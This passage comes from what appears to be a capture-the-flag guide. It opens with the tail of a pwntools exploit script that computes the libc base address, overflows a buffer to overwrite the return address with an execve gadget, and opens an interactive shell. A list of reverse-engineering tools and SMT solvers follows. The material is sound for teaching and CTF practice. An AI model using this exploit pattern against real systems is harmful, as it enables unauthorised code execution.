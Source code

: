     # calculate the base address of libc
    libc_base_address = printf_loc - printf_libc
    
    # generate payload
    
    # 0x17 is from gdb analysis of offset from input to return address
    offset = 0x17
    
    payload = b"A"*offset
    payload += p64(libc_base_address + libc_execve_address)
    
    # send the payload
    p.sendline(payload)
    
    # enter in interactive so we can use the shell created from our execve payload
    p.interactive()
    ```
    

## Reverse Engineering

> Cool Guide: [https://opensource.com/article/20/4/linux-binary-analysis](https://opensource.com/article/20/4/linux-binary-analysis)
> 
- [Ghidra](https://ghidra-sre.org/)
    - Very useful decompiler
- dotPeek or dnSpy
    - decompile .NET executables
- [jadx](https://github.com/skylot/jadx) and jadx-gui
    - decompile apks
- [devtoolzone](https://devtoolzone.com/decompiler/java)
    - decompile java online
- apktool
    - decompile apks
    - `apktool d *.apk`
- [gdb](https://www.gnu.org/software/gdb/)
    - Binary analysis
    - [peda](https://github.com/longld/peda) (extension for increased functionality)
    - [gef](https://github.com/hugsy/gef) (gdb extension for pwners)
- [radare2](https://github.com/radareorg/radare2)
    - Binary analysis

#### SMT Solvers
- [angr](https://github.com/angr/angr) (python)
	- [Docs](https://docs.angr.io/core-concepts/toplevel)
	- [Tutorial](resources/SMT_Solvers.md#2-angr)
- [z3](https://github.com/Z3Prover/z3)
	- [Tutorial](resources/SMT_Solvers.md#1-z3)

